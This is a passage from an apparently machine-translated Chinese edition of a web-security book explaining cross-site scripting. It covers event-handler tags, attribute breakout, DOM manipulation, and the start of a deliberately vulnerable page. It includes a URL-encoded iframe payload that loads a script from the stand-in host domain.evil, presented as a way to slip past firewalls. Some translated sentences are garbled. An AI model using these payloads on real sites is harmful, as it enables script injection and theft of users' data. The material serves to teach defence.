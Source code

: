 *   **< marquee >** :我已经十几年没有看到这个标签被使用了，但是浏览器仍然同时支持它和“onstart”动作。

*   **<对象>** :支持“onerror”属性。

*   **< svg >** :支持“加载”属性。

*   **<视频>** :支持“onerror”属性。

Tip

这并不是所有可用标签的完整列表。当我在写这一章的时候，我在 Twitter 上看到了一个黑客的推文，他说他们使用标签的 XSS 攻击被网络应用防火墙(WAF)阻止了，但是使用标签的相同攻击却通过了。 <sup>[ 5 ](#Fn5)</sup> 我试了一下，果然我能够在一个`onerror`属性中运行 JavaScript。

其中大部分都相当简单——要么元素在加载或启动时被告知运行脚本，要么它可以在出现错误时运行脚本。正如我提到的，<iframe>有点不同。你们中的许多人已经知道 iframe 可以用来加载第三方页面。它还可以通过在 src 中指定“data:text/html”来指定内容。我们甚至可以对我们的有效负载进行编码，以帮助隐藏它，使其免受任何可能监听恶意内容的防火墙的攻击。清单<a href="#PC19"> 5-19 </a>有一个例子，用内容"&lt;script src = '<a href="http://domain.evil/evil.js"><code>http://domain.evil/evil.js</code></a>'&gt;&lt;/script&gt;"编码。<pre>&lt;iframe src="data:text/html, %3c%73%63%72%69%70%74%20%73%72↲ %63%3d%27%68%74%74%70%3a%2f%2f%64%6f%6d%61%69%6e%2e%65%76↲ %69%6c%2f%65%76%69%6c%2e%6a%73%27%3e%3c%2f%73%63%72%69%70↲ %74%3e"&gt;&lt;/iframe&gt; Listing 5-19Iframe with encoded script payload </pre></iframe>

Note

关于 XSS 的过时书籍和博客中有很多例子，包括 JavaScript 在完全无意义的地方运行，比如将类似“javascript:somethingBad()”的东西添加到表格的“背景”属性中。要知道现在大多数浏览器都会忽略这样的事情，所以少了一件需要担心的事情。

正如我前面提到的，即使你知道如何屏蔽所有新元素，攻击者仍然可以在你的网站上添加他们自己的脚本。现在让我们深入研究一下如何做到这一点的例子。

#### 基于属性的攻击

如果您仅仅对所有的尖括号进行 HTML 编码，那么到目前为止我提到的所有攻击都可以得到缓解。为此，您需要将所有的“”字符转换成“>”免受所有这些攻击。但是如果你这样做，T2 仍然有可能对 XSS 发动攻击。以我之前谈到的搜索场景为例。如果你有一个搜索页面，你可能想要向用户显示他们在页面上搜索了什么。如果文本在一个< span >标签内，那么前面的攻击就不起作用了。但是如果您想将文本保留在文本框中以便于编辑和重新提交，那么用户可以操作<输入>标签来合并新的脚本。

在这个例子中，文本被添加到元素的“值”属性中。黑客可以关闭该属性，然后添加他们自己的属性。下面是一个例子，黑客的输入以粗体显示。

```
<input type="text" id="search" value='search text'↲
  onmouseover='MaliciousScript()' />

Listing 5-20Inserting XSS into an attribute

```

在清单 [5-20](#PC20) 中，攻击者输入“搜索文本”，添加一个引号来封闭“值”属性，然后添加一个新属性——onmouseover——该属性执行黑客的脚本。

#### 劫持 DOM 操作

将 JavaScript 轻松插入页面的最后一种方法是劫持改变页面上 HTML 的其他代码(即改变 DOM)。这里有一个改编自漏洞自助餐的例子。 <sup>[6](#Fn6)</sup>

```
@{
  ViewData["Title"] = "XSS via jQuery";
}

<h1>@ViewData["Title"]</h1>
<partial name="_Menu" />
<div class="attack-page-content">
  <p>
    This page unsafely processes text passed back from the↲
    server in order to do the search.
  </p>
  <div>
    <label for="SearchText">Search Text:</label>
    <input type="text" id="SearchText" />
  </div>
  <button onclick="RunSearch();">Search</button>
  <h2>
    You searched for:
    <span id="SearchedFor">@ViewBag.SearchText</span>
  </h2>
```